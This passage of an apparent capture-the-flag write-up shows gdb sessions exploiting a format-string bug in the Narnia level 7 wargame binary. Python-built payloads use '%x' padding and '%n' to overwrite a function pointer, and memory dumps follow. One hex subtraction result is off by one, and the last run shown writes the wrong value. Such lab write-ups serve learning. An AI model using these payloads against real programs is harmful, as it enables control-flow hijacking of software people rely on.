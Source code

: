 ```sourceCode
(gdb) r $(python -c "print 'aaaa\x0c\xd6\xff\xff' + '%x'*5 + '%d%n'")
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /games/narnia/narnia7 $(python -c "print 'aaaa\x0c\xd6\xff\xff' + '%x'*5 + '%d%n'")
goodfunction() = 0x80486e0
hackedfunction() = 0x8048706

before : ptrf() = 0x80486e0 (0xffffd60c)
I guess you want to come to the hackedfunction...

Breakpoint 1, 0x08048685 in vuln ()
(gdb) x/40wx $esp
0xffffd5f0: 0xffffd610  0x00000080  0xffffd8a2  0x08048238
0xffffd600: 0xffffd668  0xf7ffda94  0x00000000  0x00000031
0xffffd610: 0x61616161  0xffffd60c  0x38343038  0x66383332
0xffffd620: 0x64666666  0x66383636  0x64666637  0x30343961
0xffffd630: 0x38343038  0x31306536  0x37333336  0x37383137
0xffffd640: 0x00000033  0x00000000  0x00000000  0x00000000
0xffffd650: 0x00000000  0x00000000  0x00000000  0x00000000
0xffffd660: 0x00000000  0x00000000  0x00000000  0x00000000
0xffffd670: 0x00000000  0x00000000  0x00000000  0x00000000
0xffffd680: 0x00000000  0x00000000  0x00000000  0x00000000
```

Ok, so `0x8048706 - 0x00000031 = 0x80486d6` or _134514389_ in decimal. Let's see if I'm right

```sourceCode
(gdb) r $(python -c "print 'aaaa\x0c\xd6\xff\xff' + '%x'*5 + '%134514389d%n'")
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /games/narnia/narnia7 $(python -c "print 'aaaa\x0c\xd6\xff\xff' + '%x'*5 + '%134514389d%n'")
goodfunction() = 0x80486e0
hackedfunction() = 0x8048706

before : ptrf() = 0x80486e0 (0xffffd60c)
I guess you want to come to the hackedfunction...

Breakpoint 1, 0x08048685 in vuln ()
(gdb) x/40wx $esp
0xffffd5f0: 0xffffd610  0x00000080  0xffffd899  0x08048238
0xffffd600: 0xffffd668  0xf7ffda94  0x00000000  0x080486fc
0xffffd610: 0x61616161  0xffffd60c  0x38343038  0x66383332
0xffffd620: 0x64666666  0x66383636  0x64666637  0x30343961
0xffffd630: 0x38343038  0x20306536  0x20202020  0x20202020
0xffffd640: 0x20202020  0x20202020  0x20202020  0x20202020
0xffffd650: 0x20202020  0x20202020  0x20202020  0x20202020
0xffffd660: 0x20202020  0x20202020  0x20202020  0x20202020
0xffffd670: 0x20202020  0x20202020  0x20202020  0x20202020
0xffffd680: 0x20202020  0x20202020  0x20202020  0x00202020
```
